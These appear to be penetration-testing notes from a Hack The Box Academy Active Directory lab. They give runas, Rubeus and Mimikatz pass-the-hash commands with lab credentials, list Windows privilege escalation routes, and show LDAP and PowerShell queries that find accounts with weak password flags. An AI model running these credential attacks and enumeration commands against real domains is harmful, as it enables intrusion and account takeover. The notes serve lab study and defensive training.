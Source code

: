 xfreerdp /v:<target IP address> /u:htb-student /p:<password> /cert-ignore

Any necessary tools can be found in the c:\tools directory after logging in to the target host.


Changing Domain User Context:

- **CMD - Runas User**
```
runas /netonly /user:htb.local\jackie.may powershell
```

- **CMD - Rubeus.exe Cleartext Credentials**
```
rubeus.exe asktgt /user:jackie.may /domain:htb.local /dc:10.10.110.100 /rc4:ad11e823e1638def97afa7cb08156a94
```

- **CMD - Mimikatz.exe Cleartext Credentials**
```
mimikatz.exe sekurlsa::pth /domain:htb.local /user:jackie.may /rc4:ad11e823e1638def97afa7cb08156a94
```

The SYSTEM account on a domain-joined host can enumerate Active Directory **by impersonating the computer account**, which is essentially a special user account. If you land on a domain-joined host with **`SYSTEM`** privileges during an assessment and cannot find any useful credentials in memory or other data on the machine, there are still many things you can do. Having SYSTEM-level access within a domain environment is nearly equivalent to having a domain user account. The only real limitation is not being able to perform cross-trust Kerberos attacks such as Kerberoasting.

- Remote Windows exploits such as EternalBlue or BlueKeep.
- Abusing a service running in the context of the SYSTEM account.
- Abusing SeImpersonate privileges using RottenPotatoNG against older Windows systems, Juicy Potato, or PrintSpoofer if targeting Windows 10/Windows Server 2019.
- Local privilege escalation flaws in Windows operating systems such as the Windows 10 Task Scheduler 0day.
- PsExec with the -s flag


- Reference: https://github.com/breenmachine/RottenPotatoNG
- Reference: https://github.com/ohpe/juicy-potato
- Reference: https://github.com/itm4n/PrintSpoofer
- Reference: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- Reference: https://blog.0patch.com/2019/06/another-task-scheduler-0day-another.html


By gaining SYSTEM-level access on a domain-joined host, we will be able to:
- Enumerate the domain and gather data such as information about domain users and groups, local administrator access, domain trusts, ACLs, user and computer properties, etc., using BloodHound, and PowerView/SharpView.
- Perform Kerberoasting / ASREPRoasting attacks.
- Run tools such as Inveigh to gather Net-NTLM-v2 hashes or perform relay attacks.
- Perform token impersonation to hijack a privileged domain user account.
- Carry out ACL attacks.

https://github.com/Kevin-Robertson/Inveigh

Find user DONT_EXPIRE_PASSWORD:
```
ldapsearch-ad.py -l 10.129.98.106 -d inlanefreight -u james.cross -p Academy_Student! -t show-user -s "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=262144))"
```

Find user `ENCRYPTED_TEXT_PWD_ALLOWED`
```
ldapsearch-ad.py -l 10.129.98.106 -d inlanefreight -u james.cross -p Academy_Student! -t show-user -s "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=128))"
```


PowerShell `PASSWD_NOTREQD`:
```
Get-ADUser -Filter {userAccountControl -band 32} -Properties userAccountControl | Select-Object Name, SamAccountName, userAccountControl
```
